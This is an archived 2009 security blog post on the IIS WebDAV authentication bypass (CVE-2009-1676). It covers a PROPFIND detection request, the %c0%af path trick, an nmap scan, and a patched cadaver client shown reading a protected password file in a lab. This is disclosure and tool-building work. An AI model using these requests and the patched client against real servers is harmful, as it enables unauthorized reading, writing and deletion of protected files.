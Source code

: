 ```yaml
---
id: 291
title: 'WebDAV Detection, Vulnerability Checking and Exploitation'
date: '2009-05-20T17:58:55-05:00'
author: Andrew
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=291'
permalink: '/?p=291'
---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability ([CVE-2009-1676](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676)) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is \_not\_ protected then it's time to break out the funky cold medina and have some fun.

## Detecting if WebDAV is enabled

Tested working on  
\* IIS 6.0/Windows 2003 Enterprise SP2  
\* IIS 5.1/Windows XP Pro SP2  
\* IIS 5.0/Windows 2000 SP4

On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

```

PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 298

<?xml version="1.0" encoding="utf-8"?>
<propfind xmlns="DAV:">
<prop>
<getcontentlength xmlns="DAV:"/>
<getlastmodified xmlns="DAV:"/>
<executable xmlns="http://apache.org/dav/props/"/>
<resourcetype xmlns="DAV:"/>
<checked-in xmlns="DAV:"/>
<checked-out xmlns="DAV:"/>
</prop>
</propfind>
```

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.

## Checking if a server is vulnerable

Tested working on  
\* IIS 6.0/Windows 2003 Enterprise SP2  
\* IIS 5.1/Windows XP Pro SP2

Tested not working on  
\* IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.

## Finding a vulnerable server and exploiting it

Tested working on

- IIS 6.0/Windows 2003 Enterprise SP2
- IIS 5.1/Windows XP Pro SP2

Tested not working on

- IIS 5.0/Windows 2000 SP4

Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

```

> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
```

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

## Exploit it!

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called [cadaver](http://www.webdav.org/cadaver/), and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) and after hacking away at it for awhile, we came up with a little patch that makes it quite easy to exploit a server. Check the patch itself for the gritty details but basically it does the following:

1\) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)  
2\) Append the header "Translate: f" to every request (otherwise get and probably others won't work)  
3\) Insert the characters "%c0%af" into any uri request longer than 1 character.

So, grab the cadaver-0.23.2-h4x.patch and apply it to the [cadaver-0.23.2 source](http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz) from the [cadaver website](http://www.webdav.org/cadaver/). Here's the commands:

```

> mkdir cadaver-h4x
> cd cadaver-h4x
> wget patch
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1  ./configure
--snip--
> make
--snip--
```

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

```

> ./cadaver xxx.xxx.xxx.xxx
```

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

```

dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
ron$pr0ns
dav:/secret/>
```

And there you have it!

Here's a list of commands that I've tested that work with the patched cadaver on a vulnerable folder:  
\* CD  
\* LS  
\* MOVE  
\* PUT  
\* GET  
\* CAT  
\* DELETE

Oddly enough, the **COPY** command does **NOT** work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca